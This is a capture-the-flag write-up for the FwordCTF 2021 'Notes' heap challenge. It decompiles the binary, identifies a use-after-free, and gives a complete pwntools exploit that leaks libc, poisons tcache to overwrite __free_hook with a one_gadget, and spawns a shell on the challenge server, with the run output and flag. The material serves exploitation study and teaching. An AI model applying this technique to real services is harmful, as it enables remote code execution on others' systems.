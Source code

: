# Notes

> You can always manage your notes
>
> nc 40.71.72.198 1235



Given 2 files, the binary itself and libc version 2.27. From that version we know that this libc is using tcache bins. Lets try run and decompile the program. 

```
➜  Notes git:(main) ✗ ./task2 
Select an action
(1) create a note
(2) delete a note
(3) edit a note
(4) view a note
(5) exit
>> 
```

Same as usual "notes" challenge, this is heap exploitation task. Now reverse the binary using IDA.

**create()**

~~~C
unsigned int create()
{
  int nbytes; // [rsp+8h] [rbp-98h] BYREF
  int nbytes_4; // [rsp+Ch] [rbp-94h]
  char buf[136]; // [rsp+10h] [rbp-90h] BYREF
  unsigned __int64 v4; // [rsp+98h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  nbytes_4 = read_index();
  if ( nbytes_4 == -1 || *((_QWORD *)&notes + nbytes_4) )
    return puts("wrong index");
  puts("size : ");
  printf(">> ");
  __isoc99_scanf("%d", &nbytes);
  if ( nbytes <= 0 || nbytes > 143 )
    return puts("That's too much !");
  *((_QWORD *)&notes + nbytes_4) = malloc(nbytes);
  puts("content : ");
  printf(">> ");
  read(0, buf, (unsigned int)nbytes);
  buf[strlen(buf) - 1] = 0;
  return (unsigned int)strcpy(*((char **)&notes + nbytes_4), buf);
}
~~~

**delete()**

~~~C
int delete()
{
  int result; // eax

  result = read_index();
  if ( result != -1 )
  {
    free(*((void **)&notes + result));
    return puts("note deleted");
  }
  return result;
}
~~~

**edit()**

~~~C
int edit()
{
  int result; // eax
  size_t v1; // rax
  int v2; // [rsp+Ch] [rbp-4h]

  result = read_index();
  v2 = result;
  if ( result != -1 )
  {
    puts("New content : ");
    printf(">> ");
    v1 = strlen(*((const char **)&notes + v2));
    read(0, *((void **)&notes + v2), v1);
    return puts("note updated !");
  }
  return result;
}
~~~

**view()**

~~~C
int view()
{
  __int64 v0; // rax
  int index; // [rsp+Ch] [rbp-4h]

  index = read_index();
  v0 = *((_QWORD *)&notes + index);
  if ( v0 && index != -1 )
    LODWORD(v0) = puts(*((const char **)&notes + index));
  return v0;
}
~~~



The bug is **edit()** and **view()** function didnt check if the heap is freed or not. So we get **Use-After-Free** here. Theres some restriction in **create()**  that we cant allocate more than 143 bytes, but this is not a hard problem. Now jump into exploitation step



### Main Idea

The main idea of the exploitation is :

- Allocate 10 chunk with size 143 so that our chunk will placed at tcache and unsorted bin 
- free all the chunk
- Leak the main arena pointer in order to get libc base
- Allocate and free 2 chunk with size 8
- Edit the chunk with __free_hook address
- malloc with one_gadget address



### Exploitation

**solver.py**

~~~python
from pwn import *


# f = process("./task2")
f = remote("40.71.72.198", 1235)
ELF_libc = ELF("libc-2.27.so")

def malloc(idx, size, content):
	f.sendlineafter(">> ", "1")
	f.sendlineafter(">> ", str(idx))
	f.sendlineafter(">> ", str(size))
	f.sendlineafter(">> ", str(content))

def free(idx):
	f.sendlineafter(">> ", "2")
	f.sendlineafter(">> ", str(idx))

def edit(idx, content):
	f.sendlineafter(">> ", "3")
	f.sendlineafter(">> ", str(idx))
	f.sendlineafter(">> ", str(content))

def show(idx):
	f.sendlineafter(">> ", "4")
	f.sendlineafter(">> ", str(idx))




if len(sys.argv) > 2:
	gdb.attach(f, "c")

for i in range(10):
	malloc(i, 143, "")

for i in range(9):
	free(i)



show(7)
leak = f.recvline().strip()
leak = leak.ljust(8, "\x00")
leak = u64(leak)
libc = leak - 4111520 # main_arena
log.info("libc base @ " + hex(libc))
target = libc+ELF_libc.symbols['__free_hook']
log.info("__free_hook @ " + hex(target))
one_shot = libc + 0x4f432

# 0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   rsp & 0xf == 0
#   rcx == NULL

# 0x4f432 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   [rsp+0x40] == NULL

# 0x10a41c execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL


malloc(10, 8, "")
malloc(11, 8, "")
free(10)
free(11)
edit(11, p64(target).replace("\x00", ""))
malloc(12, 8, "")
malloc(13, 8, p64(one_shot).replace("\x00", ""))
free(12)

f.interactive()
~~~



```
➜  Notes git:(main) ✗ python solver.py 
[+] Opening connection to 40.71.72.198 on port 1235: Done
[*] '/home/syahrul/Desktop/Writeups/FwordCTF_2021/pwn/Notes/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc base @ 0x7f31fe952000
[*] __free_hook @ 0x7f31fed3f8e8
[*] Switching to interactive mode
$ ls
flag.txt
task2
task2.c
ynetd
$ cat flag.txt
FwordCTF{i_l0V3_ru5tY_n0tEs_7529271026587478}
$ 
```



**FLAG:** FwordCTF{i_l0V3_ru5tY_n0tEs_7529271026587478} 
